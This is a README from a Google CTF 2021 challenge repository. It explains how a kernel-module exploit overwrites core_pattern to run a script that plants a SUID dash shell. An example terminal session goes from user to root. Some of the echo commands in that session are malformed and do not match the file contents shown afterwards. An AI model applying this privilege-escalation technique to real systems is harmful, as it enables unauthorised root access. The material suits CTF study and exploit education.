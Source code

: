 This directory contains the relevant source-code files used to exploit the vulnerable kernel module in the Google CTF 2021 Full chain challenge.

[exploit-core-pattern.c](exploit-core-pattern.c) should be compiled as a static binary and written to the target and executed from a user-privileged shell to elevate privileges. It will overwrite the core_pattern string to execute the [exploit.sh](exploit.sh) shell-script located on the target at the path `/tmp/userdata/x`.

The shell-script will create a SUID copy of `/bin/dash` which can be executed with `/tmp/userdata/dash -p` to obtain a root-privileged shell.

**Example Usage**
```bash
ctf@(none):/$ echo '#!/bin/bash' /tmp/userdata/x
ctf@(none):/$ echo 'install -m =xs $(which dash) /tmp/userdata' >> /tmp/userdata/
ctf@(none):/$ chmod +x /tmp/userdata/x
ctf@(none):/$ cat /tmp/userdata/x
#!/bin/bash
install -m =xs $(which dash) /tmp/userdata
ctf@(none):/$ ulimit -c unlimited # enable core-dumps
ctf@(none):/$ ulimit -c
unlimited
ctf@(none):/$ /exp
[+] Spraying pool
[+] Opening /dev/ctf
[+] CTF_ALLOC 696 
[+] READ 696
...
magic: 5401
Leaked text pointer: 0xffffffff8aa745e0
Leaked data pointer: 0xffffa0d482671038
base: ffffffff89a00000
[+] WRITE 696
[+] OVERWRITING CORE_PATTERN
[+] BYEE
[+] CRASHING
ctf@(none):/$ ls -l /tmp/userdata/
total 128
---s--s--x 1 root root 125560 Nov 11 16:15 dash
-rwxr-xr-x 1 ctf  ctf      55 Nov 11 16:13 x
ctf@(none):/$ /tmp/userdata/dash -p
/tmp/userdata/dash: 0: can't access tty; job control turned off
# whoami
root 
```

